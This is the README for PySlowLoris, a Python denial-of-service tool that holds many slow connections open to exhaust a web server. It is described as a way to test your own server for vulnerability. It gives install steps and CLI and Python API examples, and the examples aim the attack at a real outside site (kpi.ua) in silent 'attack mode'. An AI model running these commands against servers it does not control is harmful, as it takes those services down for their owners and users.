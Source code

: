 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-3.8-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![PyPI version](https://badge.fury.io/py/PySlowLoris.svg)](https://badge.fury.io/py/PySlowLoris)

PySlowLoris is a tool for testing if your web server is vulnerable to slow-requests kind of attacks. The module is based on python-trio for Asynchronous I/O and poetry for dependency management. The idea behind this approach to create as many connections with a server as possible and keep them alive and send trash headers through the connection. Please DO NOT use this in the real attacks on the servers.

More information about the attack you can find [here].

### Installation

#### PyPi

For installation through the PyPI:

```sh
$ pip install pyslowloris==2.0.0
```
This method is prefered for installation of the most recent stable release.


#### Source-code

For installation through the source-code for local development:
```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ pip install poetry
$ pyenv install 3.8.3
$ pyenv local 3.8.3
$ poetry env use 3.8.3
```

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] -u URL [-c CONNECTION_COUNT] [-s]

Asynchronous Python implementation of SlowLoris attack

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Link to a web server (http://google.com) - str
  -c CONNECTION_COUNT, --connection-count CONNECTION_COUNT
                        Count of active connections (default value is 247) - int
  -s, --silent          Ignore all of the errors [pure attack mode] - bool
```

### Docker usage

#### Download image from Docker Hub

Pull the image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run a container:

```bash
$ docker pull maxkrivich/pyslowloris
$ docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

#### Build image from source-code

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run a container:

```bash
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

**Note:** *Don't forget about 'sudo'!*



### Example of usage

#### How to use module through Python API
Here is an example of usage

```python
from pyslowloris import HostAddress, SlowLorisAttack

url = HostAddress.from_url("http://kpi.ua")
connections_count = 100

loris = SlowLorisAttack(url, connections_count, silent=True)
loris.start()
```

#### How to use module via CLI

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -c 100 -s
```
###### stop execution: Ctrl + C



### Testing

#### Testing with real apache server

```bash
$ docker-compose up web_server -d
$ .....
```

#### Module-tests
```bash
$ make pytest
```

### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact me.

### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017-2020 Maxim Krivich

[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
